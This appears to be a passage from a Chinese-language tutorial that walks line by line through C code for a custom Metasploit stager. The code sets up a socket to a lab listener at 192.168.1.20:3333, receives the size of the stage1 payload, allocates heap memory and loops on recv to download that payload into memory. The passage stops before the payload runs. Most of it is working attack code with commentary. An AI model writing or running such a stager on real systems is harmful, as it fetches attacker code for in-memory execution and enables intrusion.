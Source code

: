`sock_info.sin_family = AF_INET;`sin\_family是协议簇，AF\_INET代表tcp/ip协议,ip地址类型是ipv4。

`sock_info.sin_addr.S_un.S_addr =inet_addr("192.168.1.20");`设置socket的ip，S\_addr成员代表socket的ip,inet\_addr函数将ip地址转换成一个二进制数。

`sock_info.sin_port = htons(3333);`设置socket的端口，htons函数功能是将主机字节序转换成网络字节序，就是将高位字节放到内存中低地址。

到了这里socket的属性已经设置好了，下面我们来看与服务器建立链接的代码。

```php
connect(sock, (SOCKADDR*)&sock_info, sizeof(SOCKADDR_IN));
DWORD recvSize;
recv(sock, (char*)&recvSize, sizeof(DWORD), 0);
```

```php
connect(sock, (SOCKADDR*)&sock_info, sizeof(SOCKADDR_IN));
```

`connect`函数功能是向服务器发起链接，第一个参数是用哪一个socket来与服务器建立链接，第二个参数是一个指针类型，指向`SOCKADDR_IN`结构体，这个参数就是告诉它，我要和哪一个ip，哪一个端口进行通信，因为上面我们定义好了，所以取上面定义好的地址即可，因为这个指针是`sockaddr*`类型的所以要强转一下，第三个参数是`sockaddr_in`是结构体的大小。

`DWORD recvSize;`定义一个变量用于接收stage1阶段载荷的大小。

`recv(sock, (char*)&recvSize, sizeof(DWORD), 0);`  
`recv`函数用于接收服务端发送的数据，该函数返回值是一个int类型的数字，这个数字代表接收了多少字节的数据，该函数的第一个参数是刚才与服务器建立链接的`socket`，第二个参数作用是告诉系统，服务器发的数据放到哪里，是一个指针类型，第三个参数是第二个参数指向内存的大小。最后一个参数一般是0。

```php
PBYTE recbuf = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, recvSize);
DWORD recvSize2 = recvSize;
PBYTE recbuf2 = recbuf;
```

因为上面已经与服务器上的msf建立过一次连接了，第一次与msf建立连接时，msf发送过来的数据时一个数字，这个数字是stage1阶段载荷的总大小，因为我们要把stage1阶段的载荷放到内存中并执行，所以要先分配一块内存,分配内存的大小就是上面定义的`recvSize`，再强调一下上面第一次recv接收的数据不是stage1阶段的载荷，它是一个数字，代表stage1阶段载荷的总大小。

```php
PBYTE recbuf = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, recvSize);
```

定义一个指针指向`HeapAlloc`函数分配的内存，`HeapAlloc`函数第一个参数是要分配堆的句柄，通过`GetProcessHeap`函数得到，第二个参数是把分配的内存中的数据全部初始化为0，第三个参数是分配内存的大小。

```php
DWORD recvSize2 = recvSize;
PBYTE recbuf2 = recbuf;
```

因为下面的代码会修改`recvSize`和`recbuf`中的值，所以要先把它们存起来，以便后续使用。

```php
DWORD i = 1;
while (i>0&&recvSize>0)
{
    i = recv(sock, (char*)recbuf, recvSize, 0);
    recbuf =recbuf+i;
    recvSize = recvSize - i;

}
```
